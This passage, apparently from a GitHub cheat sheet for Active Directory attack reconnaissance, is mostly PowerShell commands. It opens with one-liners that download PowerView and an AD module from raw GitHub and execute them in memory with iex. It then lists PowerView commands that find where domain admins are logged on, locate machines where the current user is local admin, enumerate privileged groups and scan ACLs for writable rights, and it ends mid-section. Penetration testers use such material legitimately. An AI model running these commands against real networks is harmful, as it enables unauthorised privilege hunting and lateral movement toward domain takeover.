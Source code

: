 ```powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');New-InMemoryModule
```
## <a name='PRE-REQUISITE:ADWebServicesontheDC'></a>PRE-REQUISITE: AD Web Services on the DC

On the error below when loading the AD module, ADWS must be reachable and running:
- TCP port 9389 reachable from your endpoint (and listening on the DC) : ```Test-NetConnection DC01 -port 9389```
- Restart the service on the DC : ```Restart-Service –name ADWS –verbose```

```
PS > iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

AVERTISSEMENT : Error initializing default drive: 'Unable to find a default server with Active Directory Web Services running.'.
```
For more info, read the article from [theitbros.om](
https://theitbros.com/unable-to-find-a-default-server-with-active-directory-web-services-running/).

## <a name='ENUM:DOMAINADMIN'></a>ENUM: DOMAIN ADMIN
```powershell
# PowerView: find where DA has logged on / and current user has access
Invoke-UserHunter
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -CheckAccess | select username, computername, IPAddress

# get all the effective members of DA groups, 'recursing down'
Get-DomainGroupMember -Identity "Domain Computers" -Recurse | select membername, membersid
Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select membername, membersid
Get-DomainGroupMember -Identity "Enterprise Admins" -Recurse -Domain <Forest> | select membername, membersid
```

## <a name='ENUM:PRIVILEGEDUSERS'></a>ENUM: PRIVILEGED USERS

- [Well-known Microsoft SID List](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/81d92bba-d22b-4a8c-908a-554ab29148ab?redirectedfrom=MSDN)

```powershell
# PowerView: find computers where the current user is local admin
Find-LocalAdminAccess

#  PowerView: find local admins on all computers of the domain
Invoke-EnumerateLocalAdmin | select computername, membername

# PowerView: gather info on security groups
Get-ObjectAcl -SamAccountName "Domain Computers" -ResolveGUIDs -Verbose | ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs -Verbose| ? { ($_.SecurityIdentifier -match '^S-1-5-.*-[1-9]\d{3,}$') -and ($_.ActiveDirectoryRights -match 'WriteProperty|GenericAll|GenericWrite|WriteDacl|WriteOwner')}
Get-DomainGroupMember -Identity "Backup Operators" -Recurse
Get-NetGroupMember -GroupName RDPUsers
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"} 

#  PowerView: get actively logged users on a computer
Get-NetLoggedon -ComputerName <Computer>

# PowerView: find where a user has logged on
```